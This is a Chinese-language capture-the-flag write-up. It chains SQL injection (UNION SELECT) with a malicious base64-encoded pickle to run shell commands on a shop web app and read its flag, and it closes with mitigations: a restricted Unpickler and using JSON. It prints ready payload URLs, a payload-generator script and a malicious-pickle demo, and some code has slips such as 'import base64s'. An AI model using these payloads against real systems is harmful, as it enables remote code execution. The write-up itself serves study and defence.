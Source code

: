 # Q2 C.O.P

## 瀏覽畫面

購物網站，滿滿的 pickles
![image](https://hackmd.io/_uploads/Hy8ztnysA.png)

先隨機瀏覽網頁
![image](https://hackmd.io/_uploads/HJMSYh1o0.png)

## 觀查網站

先在 URL 用 `-1' OR '1 = 1'` 觀察，看是否可以 sql injection
![image](https://hackmd.io/_uploads/ryJgKn1s0.png)

看來可行，並沒有產生 error

## 觀察 source code

看他 GET 產品、所有產品的程式碼，看來剛剛的攻擊是有效的
![image](https://hackmd.io/_uploads/HyU1c2ys0.png)

`database.py` 內有他原始如何將照片與產品敘述放入 DB 的方式

![image](https://hackmd.io/_uploads/r147q3JoC.png)

其中，可以很明顯到他運用 base64 對 pickle 物件進行加密儲存

```
    with open('schema.sql', mode='r') as f:
        shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
        get_db().cursor().executescript(f.read().format(*list(shop)))
```

載入時，用 pickle 對物件從資料庫還原，故每一筆資料必定會進行 base64 解密，再進行 pickle.loads 的動作(傳入資料/DB 資料)，而這邊正是我們可以對 pickle 作文章的地方
![image](https://hackmd.io/_uploads/BkeQs3JsC.png)

## 嘗試解題

先觀察可以被看到的路徑
![image](https://hackmd.io/_uploads/SJD1phJjR.png)

`src="/static/images/pickle.jpg"` =>確定移到`/static/images/`的檔案是可以被看到的

確定一下 static 的上一層資料夾，以及 flag 的位置(btw 此檔案內包含 flag 並非正確 flag)
![image](https://hackmd.io/_uploads/BytD6nkj0.png)

先透過 ls > application/static/images/ls.txt 確定一下實際檔案分布。並利用 pickle 使用 `__reduce__(self):`時會將整個指令直接跑一遍的特性，配合 base64 編碼，用物件將指令包進去，使網站在進行 filter 時，執行 load()時，自動執行我們編寫的 shell 指令。

使用 UNION-base 方法，將加密過、壓縮過後的、包含指令的物件傳過去網站

```
http://{web url}/view/0'%20UNION%20ALL%20SELECT%20'gASVGwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjACUhZRSlC4='--
```

程式碼

```python=1
import pickle
import base64s
import urllib.parse
import requests
import os


class data:
    def __reduce__(self):
        return os.system, ("ls > application/static/ls.txt",)


p = f"0' UNION ALL SELECT '{base64.b64encode(pickle.dumps(data())).decode()}'--"
print(p)
```

印出所有檔案
![image](https://hackmd.io/_uploads/r12hzayjC.png)

再將 flag.txt 內容印出到 `/static/images/`

`"cat flag.txt > application/static/flag.txt"`

```
http://{web url}/view/0'%20UNION%20ALL%20SELECT%20'gASVRQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCpjYXQgZmxhZy50eHQgPiBhcHBsaWNhdGlvbi9zdGF0aWMvZmxhZy50eHSUhZRSlC4='--
```

查看

![image](https://hackmd.io/_uploads/HJkS46ko0.png)
通過!

## \*補充

反序列化攻擊/漏洞

當反序列化的對象來自不可信的源時，攻擊者可以注入惡意程式碼，導致執行任意操作。例如，使用 pickle 進行反序列化時，如果未對輸入進行驗證，攻擊者可以創造包含惡意程式碼的 pickle 數據。

```python=1
import pickle
import os

# 惡意程式
class Malicious:
    def __reduce__(self):
        return (os.system, ('echo Hacked!',))

# 序列化
malicious_data = pickle.dumps(Malicious())

# 反序列化时會執行__reduce__裡的指令
pickle.loads(malicious_data)
```

## \*Patch

- 安全反序列化的原則 :
  防範反序列化攻擊的第一原則就是：避免從不可信來源反序列化。只有當你完全信任數據的來源時，才可以使用反序列化。

- 安全的反序列化代碼示例 :
  如果必須使用 Pickle 進行反序列化，可以考慮重載 find_class 來限定範圍限制反序列化的對象類型：

```python=1
import pickle
import types

# 自定義Unpickler，限制可反序列化的類型
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == "builtins" and name in {"str", "list", "dict", "set", "int", "float", "bool"}:
            return getattr(__import__(module), name)
        raise pickle.UnpicklingError(f"global '{module}.{name}' is forbidden")

def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()
```

- 使用其他安全的序列化方式（如 JSON）:
  一個更安全的做法是使用 JSON 替代 Pickle 進行序列化和反序列化。JSON 只支持基本數據類型，不會執行任意代碼，因而更安全。

```python=1
import json

# 序列化對象
data = {'name': 'Alice', 'age': 25, 'city': 'New York'}
data_json = json.dumps(data)

# 反序列化對象
data = json.loads(data_json)
```

---

reference :

1. UNION-base 方法
   https://tech-blog.cymetrics.io/posts/nick/sqli/

2. python pickle 套件 https://docs.python.org/3/library/pickle.html

3. 解決、補充
   https://xie.infoq.cn/article/d7af40d3e86722eb21224c50e
